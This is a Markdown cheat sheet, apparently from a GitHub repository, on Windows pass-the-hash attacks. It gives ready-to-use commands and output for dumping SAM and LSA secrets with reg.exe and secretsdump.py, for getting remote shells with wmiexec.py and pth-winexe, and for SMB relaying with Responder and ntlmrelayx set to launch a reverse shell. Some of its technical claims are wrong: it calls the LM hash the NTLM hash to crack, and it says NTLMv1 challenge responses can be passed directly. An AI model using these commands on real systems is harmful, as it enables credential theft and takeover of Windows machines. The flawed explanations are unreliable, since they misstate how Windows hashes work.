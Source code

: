 # Pass-The-Hash Windows

In most case of leathral movment, we usually don't have password. 
This PTH technique, allows us to authenticate to a remote target by using a valid username and NTLM/LM hash rather than username and password. First let's understand the diffrences between LM,NTLM and NTLMv1/v2 hashes:

## Lan Manager (LM) Hashes

The oldest password storage used by Windows. In Windows 2000, XP and Server 2003 passwords shorter than 15 characters were stored in the Lan Manager (LM) hash format as following:

```
user:group:id:lmhash:nthash::
```

For example:

```
 Admin:502:aad3c435b514a4eeaad3b935b51304fe:c46b9e588fa0d112de6f59fd6d58eae3:::
```

This hash divided by semicolon, means:

- Admin is the user name

- 502 is the relative identifier (500 is an administrator, 502 here is a kerberos account. (adsecurity.org/?p=483)

- aad3c435b514a4eeaad3b935b51304f is the LM hash

- c46b9e588fa0d112de6f59fd6d58eae3 is the NT hash 


Our final NTLM hash for brute force attack will be *aad3c435b514a4eeaad3b935b51304fe*
For online cracking use: https://hashkiller.co.uk/Cracker/NTLM

## NT (New Technology) Hashes

In newer Windows versions (such as Vista, Server 2008+, Win7 etc.) this is the way passwords are stored, also those hashes are stored on domain controllers in the NTDS file and commonly use for pass-the-hash. This commonly use in term of NTLM hash (or just NTLM).

NTLM hash with only the NT component format as following:

```
user:group:id:emptylmhash:nthash::
```

For example:

```
Administrator:500:NO PASSWORD*********************:EC054D40119570A46634350291AF0F72:::
ITguy:1007:AAD3B435B51404EEAAD3B435B51404EE:38103E9BF8D09200D725F1541ECC5BCA:::
```

In both cases, it is the same format. However, the string "NO PASSWORD" or "AAD3B435B51404EEAAD3B435B51404EE" display in place of no password depend on the tool being used to dump those hashes as normally LM hash is empty and not stored. NTLM hash can be cracked to gain password, or used to pass-the-hash.

For online cracking use: https://hashkiller.co.uk/Cracker/NTLM

## NTLMv1/v2

Those NTLMv1/v2 are challenge response protocols used for authentication in Windows environments, much harder to bruteforce and usually used in SMB relay attack using Responder.py or Impacket Python tools to obtains this hash from a client in the network.

NTLMv1-SSP hash format as following:

```
username::hostname:*response*:*response*:challenge
```

For example:

```
john::MWLAB:338d08f8e26de93300000000000000000000000000000000:9526fb8c23a90751cdd619b6cea564742e1e4bf33006ba41:cb8086049ec4736c
```

We will use the response characters from the hash string as our final hash for pass-the-hash:

```
38d08f8e26de93300000000000000000000000000000000:9526fb8c23a90751cdd619b6cea564742e1e4bf33006ba41
```

Then, use this hash on one of pth (pass-the-hash) tools for example wmiexec from Impacket:

```
root@kali:~# wmiexec.py  -hashes 38d08f8e26de93300000000000000000000000000000000:9526fb8c23a90751cdd619b6cea564742e1e4bf33006ba41 administrator@192.168.1.12
Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>
```

## Dump Hashes

### Using FgDump.exe tool

Dump hashes from running system using fgdump.exe from Kali as following:

```
root@kali:~# cd /usr/share/windows-binaries/fgdump
root@kali:/usr/share/windows-binaries/fgdump# python -m SimpleHTTPServer 80
```

### From Compromised system

If we already compromised system, then we able extract the values of SAM files from you system and then dump thier hashes in your kali machine:

On victim machine (has to run under SYSTEM-level privileges):

```
C:\> reg.exe save hklm\sam c:\temp\sam.save
C:\> reg.exe save hklm\security c:\temp\security.save
C:\> reg.exe save hklm\system c:\temp\system.save

```

Then use those copy of the SYSTEM, SECURITY and SAM hives back to your kali machien and use secretsdump.py to dump hashes:


```
root@kali:~# secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
Impacket v0.9.11-dev - Copyright 2002-2013 Core Security Technologies

[*] Target system bootKey: 0x602e8c2947d56a95bf9cfad9e0bbbace
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
renadm:500:aad3b435b51404eeaad3b435b51404ee:3e24dcead23468ce597d6883c576f657:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
support:1000:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
[*] Dumping cached domain logon information (uid:encryptedHash:longDomain:domain)
hdes:6ec74661650377df488415415bf10321:securus.corp.com:SECURUS:::
Administrator:c4a850e0fee5af324a57fd2eeb8dbd24:SECURUS.CORP.COM:SECURUS:::
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:2fb3672702973ac1b9ade0acbdab432f
...

```

## Practical Usage PTH

### Pth-winexe

This help us to get an interactive command line with the remote victim:

USAGE:

```
pth-winexe -U DOMAIN/user%hash //$ip cmd
```

Example:
```
root@kali:~# pth-winexe -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee:C0F2E311D3F450A7FF2571BB59FBEDE5 //192.168.1.12 cmd.exe
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows \[Version 6.3.9600\]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
Server\Administrator
```

### SMB Relaying attack

Fire up the Responder.py tool:

```
root@kali:~# python Responder.py -I eth1 -r -d -w
``

In another window running the following command using Impacket Python:

```
root@kali:~# ntlmrelayx.py -tf targets.txt -c [POWERSHELL REVERSE SHELL]
``

Upon successful relay it will dump the SAM database of the target and executing a command in background using the NTLM hash.

